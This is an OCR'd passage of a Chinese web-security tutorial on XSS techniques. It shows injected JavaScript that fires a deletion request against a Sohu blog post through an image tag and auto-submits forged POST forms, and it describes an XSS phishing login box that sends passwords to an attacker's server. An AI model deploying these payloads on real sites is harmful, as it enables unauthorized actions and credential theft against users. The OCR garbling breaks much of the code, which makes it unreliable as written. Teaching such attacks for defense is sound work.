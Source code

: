 正常删除该文章的链接是:
`http://blog.sohucom/manage/entry.do?m=delete&id-156713012`
对于攻击者来说,只需要知道文章的id,就能够通过这个请求删除这篇文章了.
攻击者可以通过插入一张图片来发起一个GET请求:

```
var img = document.createElement(img");
img.src="http://blog.sohucom/manage/entry.do?m=deletesid=156713012";
document body. appendchild(img);
```



##### 模拟表单

要模拟这一过程,有两种方法。第一种方法是,构造一个fom表单,然后自动提交这个表单:

```js
var f= document.createElement ("form");
f.action = "";
f.method ="post";
document.body.appendChild(f)；

var il= document.createElement("input")
i1.name= "ck";
i1.value ="JiUY"
f appendchild(11);
var i2 document.createElement("input");
i2. name mb text":
i2. value="testtesttest
f appendchild(i2):
f, submit()冫
```

如果表单的参数很多的话,通过构造DOM节点的方式,代码将会非常冗长。所以可以直
接写HML代码,这样会使得整个代码精简很多,如下所示:

```
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML='<form action"" method="post" id="xssform" name="mbform">'+
 '<input type"hidden" value="JiUY" name="ck"/>' +
 '<input type="text" value="testtesttest" name="mb text"/>'+
 '</form>'

document. getElementById("xssform"). submit();
```

第二种方法是,通过 XmlhTtprequEst发送一个POST请求:



##### XXS 钓鱼

实现思路很简单:利用 JavaScript在当前页面上“画出”一个伪造的登录框,当用户在登
录框中输入用户名与密码后,其密码将被发送至黑客的服务器上。

